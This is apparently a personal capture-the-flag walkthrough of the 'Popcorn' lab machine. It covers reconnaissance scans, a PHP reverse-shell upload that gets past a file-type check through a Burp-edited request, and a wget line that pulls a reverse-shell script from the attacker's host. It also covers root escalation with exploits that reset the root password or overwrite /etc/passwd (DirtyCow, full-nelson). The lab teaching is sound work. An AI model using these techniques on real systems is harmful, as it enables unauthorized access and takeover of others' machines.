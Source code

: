 
# Popcorn 

this is the walk-through of popcorn;

No metasploit cause fuck automation

1. NMAP:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-09 13:47 EDT
Nmap scan report for 10.10.10.6
Host is up (0.094s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux;
| ssh-hostkey:
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


2.dirsearch & dirbuster:
```
_|. _ _  _  _  _ _|_    v0.3.9                                          
(_||| _) (/_(_|| (_| )   
Extensions: .php,  | HTTP method: get | Threads: 10 | Wordlist size: 4614




Error Log: /root/dirsearch/logs/errors-20-06-09_14-17-54.log




Target: http://10.10.10.6/                                               
                                                                         
[14:17:54] Starting:
[14:17:55] 200 -  177B  - /
[14:17:55] 403 -  282B  - /.hta        
[14:18:03] 403 -  286B  - /cgi-bin/                   
[14:18:14] 200 -  177B  - /index                     
[14:18:14] 200 -  177B  - /index.html
[14:18:34] 200 -   48KB - /test                 
[14:18:34] 301 -  310B  - /torrent  ->  http://10.10.10.6/torrent/
[14:18:39] 403 -  291B  - /server-status                                    
Task Completed              
```

```
root@kali:~# gobuster dir -u http://10.10.10.6/torrent -e .php, .txt, .json -w /usr/share/wordlists/dirb/common.txt -q
(filtered manually)
http://10.10.10.6/torrent/browse (Status: 200)
http://10.10.10.6/torrent/database (Status: 301)
http://10.10.10.6/torrent/download (Status: 200)
http://10.10.10.6/torrent/index (Status: 200)
http://10.10.10.6/torrent/index.php (Status: 200)
http://10.10.10.6/torrent/torrents (Status: 301)
http://10.10.10.6/torrent/upload (Status: 301)
```

4.going to /torrent we find that its a torrent hoster

furthermore  we notice that we can login so we insert a fake email and make an account



so now we want to install any random torrent file, i installed the kali linux torrent and uploaded it, upon inspection of our upload we notice we can edit the screenshot of the file 



so we upload any random image and head to 10.10.10.6/torrent/upload , and there it is you should be able to see the file you uploaded


6.so we know that this site is vulnerable to php exploits by initial scan, now we install a php reverse shell from pentestmonkey, then edit the IP address and when we want to save the php file it should be saved as shell.php.png because the screenshot editor does not accept php specifically add the .png in the end after the php and then right before uploading the screenshot have burpsuite intercept it we edit the POST and we can see here the content type and file name

now simply edit out the .png  part, and then the file should be uplaoded 

after that simply launch netcat to listen to the port that the payload is on using;
```
nc -nvlp <PORT>
```
and then click the .php file when your in torrent/uploads which should give you a shell!, and now move to home to the user Goerge and then we should be able to get the user.txt !, and with taht when we ls -la that user we find something interesting called .cache




----------------------------------------------------------------------------------------------------------------------------------------------------------------------------
1) the first thing to do in your methodology is snoop around the user your in, using ls -la it shows all hidden directories
and check every. single. one., and when you do that you will find a folder called .cache with a file in it, when you use
cat read the file it has a mention of MOTD and when you run it against search sploit you will get 3 exploits, 2 of them are
actually useable, so the one were gonna be using is 14339.sh, also uname -a shows kernal version and that might be useful
(to which it is since we found out that the kernal is outdated

1.2) 14339.sh aka privesc.sh

if you proceed with this exploit this is one of the exploits  theres multiple ways you can do this, i tried to initially run a
python -m SimpleHTTPServer in the same director as the file and then i would wget http://xx.xx.xx.xx:8000/<filename>.sh but
that didnt fucking work for me for some reason so instead where gonna take the other route

-run this command (xclip copies it to our clipboard)
```
cat /usr/share/exploitdb/exploits/linux/local/14339.sh|xclip
```

-then type "vi .privesc.sh"(creates a vim text file) simply paste then it save it and should be written then, so to launch it, it would simply be;
```
"bash .privesc.sh"
```
and that should do it for you and then simply press enter and now the password should be removed and
be replaced by toor
-now;
```
cd /root/
ls  -la
cat root.txt
```

summary = bash exploit that removes root password and replaces it with toor
----------------------------------------------------------------------------------------------------------------------------------------------------------------

1.3) dirty cow

after we have gained access into the user we want to escalate our privileges and for dirty cow we need to check if we have gcc installed
```
www-data@popcorn$ which gcc
usr/bin/gcc
```

- and now that we know gcc is installed we can exploit it with dirty cow and we know that we had an issue with using the python method of transferring files so were going to continue using xclip;
```
vi dirty.c
```
- paste the code from the actual script 

and with the script you should always check the script if they have compile instructions which they do luckily;
```
// This exploit uses the pokemon exploit of the dirtycow vulnerability
// as a base and automatically generates a new passwd line.
// The user will be prompted for the new password when the binary is run.
// The original /etc/passwd file is then backed up to /tmp/passwd.bak
// and overwrites the root account with the generated line.
// After running the exploit you should be able to login with the newly
// created user.
//
// To use this exploit modify the user values according to your needs.
// The default is "firefart".
//
// Original exploit (dirtycow's ptrace_pokedata "pokemon" method):
// https://github.com/dirtycow/dirtycow.github.io/blob/master/pokemon.c
//
// Compile with:
// gcc -pthread dirty.c -o dirty -lcrypt
//
// Then run the newly create binary by either doing:
// "./dirty" or "./dirty my-new-password"
//
// Afterwards, you can either "su firefart" or "ssh firefart@..."
//
// DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!
// mv /tmp/passwd.bak /etc/passwd
//
// Exploit adopted by Christian "FireFart" Mehlmauer
// https://firefart.at
```

after exploitation it will ask a new password enter it and then you should be able to ssh into the box as a very similar exploit is called the full nelson exploit the only difference is this is how its exploited after being transferred to the box
```
www-data@popcorn:/tmp$ gcc 15704.c -o ech0.privesc
gcc 15704.c -o ech0.privesc
www-data@popcorn:/tmp$ chmod +x ech0.privesc
chmod +x ech0.privesc
www-data@popcorn:/tmp$ ./ech0.privesc
./ech0.privesc
[*] Resolving kernel addresses...
[+] Resolved econet_ioctl to 0xf83d4280
[+] Resolved econet_ops to 0xf83d4360
[+] Resolved commit_creds to 0xc01645d0
[+] Resolved prepare_kernel_cred to 0xc01647d0
[*] Calculating target...
[*] Triggering payload...
[*] Got root!
# cat /root/root.txt
cat /root/root.txt
```


summary = c oriented exploit that creates a new user with root permissions
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Exploitation 2.0

when doing the burpsuite part what you can do is to simply take out bites from the image that was uploaded, copy the magic bites and then what you need to do is to paste those magic bites into the intercepted php payload


and then use the python pty shells;
firstly you want to use backconnect.py since thats the reverse shell and then transfer that file over to the victims box rather than a php exploit (i think), now after uploading the PHP exploit refresh the page to intercept the request to then upload the file using the request being sent to repeater,
```
ipp=wget XX.XX.XX.XX:8000/tcp_pty_backconnect.py -O /dev/shm/rev.py
```
 dev shm is just the ram disk so its not saved to the hard drive


right before uploading the file, lets launch the handler
```
python tcp_pty_shell_handler.py -b XX.XX.XX.XX:XXXX
```
and after launching the exploit you should get a shell and done, after that then just cd /dev/shm  and then we try to find the password
```
find /home -printf -type f "%f\t%p\t%u\t%g\t%g\t%m\n" 2>dev/null | column -t
```


-----------------------------------------------------------
summary:
1.you should learn now how to upload a php reverse shell
2.use burpsuite to sneak it in
3.check kernal version
4.how to use clipboard if wget and running a server doesn't work ( |xclip, then vi .<filename>.sh/php/c
5.how to run and use C oriented exploits (when doing research for the kernel version dirty cow must show up)
6.remember to check the exploit for compile instructions (in which for dirty cow is gcc -pthread 40839.c -o dirty -lcrypt
and after exploitation su firefart)
